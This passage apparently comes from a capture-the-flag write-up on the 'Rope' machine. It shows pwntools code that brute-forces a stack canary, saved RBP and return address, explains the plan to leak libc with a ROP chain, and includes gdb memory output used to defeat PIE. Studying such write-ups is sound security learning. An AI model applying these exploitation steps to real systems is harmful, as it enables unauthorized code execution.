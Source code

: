 I’ll call `brute_word` with this code:

    
    
    ### Stage 0: Brute force addresses
    log.info("Starting brute force")
    exploit = b"A"*56
    canary = brute_word(exploit, 8, 'Canary')
    #canary = p64(0xc3c00f67449ca300)
    exploit += canary
    
    
    rbp = brute_word(exploit, 8, 'RBP')
    #rbp = p64(0x00007ffdf7d5285c)
    exploit += rbp
    
    ret = brute_word(exploit, 7, 'Return Address', b'\x62')
    #ret = p64(0x0000556ff9dd4562)
    

The canary and RBP brute force without issue. There is a problem with the
return address in that many least significant bytes will not crash the program
immediately. But I need to know this address to find the base of the program.
Luckily, I can know it will always be 0x62 (more on that in a minute), so I
force that here.

This brute forcing is slow. During testing, once I brute forced it once and
knew it hadn’t changed, I would often comment out those parts and hard code in
these words. Since solving Rope, I learned a bit about Async programming in
Python, and may at some point write a post implementing those techniques to
solve this significantly faster.

### Stage 1: Leak Libc

Now I know the memory space of the main program, but not the libc. I also know
the canary and can overwrite the return address. I’ll use a rop chain to leak
a libc address, and then can calculate the addresses of any functions or
strings in libc I want. In the program, it uses `write` to send data to the
socket. I’ll use a `write` call to send the GOT table address for the `write`
function.

#### Program Base Address

Because PIE is enabled it means that even if my gadgets are in the main
program, they still move around in memory.

I’ll use my leaked return address to find the offset to the program base. The
return address I leak will always be the same distance into that memory space.
So I can simply look at that address and the memory map, and calculate the
offset.

    
    
    gdb-peda$ x/3xg $rbp-8
    0x7ffccfb6cbe8: 0x18bb289986192300      0x00007ffccfb6cc20
    0x7ffccfb6cbf8: 0x000055d9d3d0d562
    gdb-peda$ info proc mappings
    process 20559
    Mapped address spaces:
    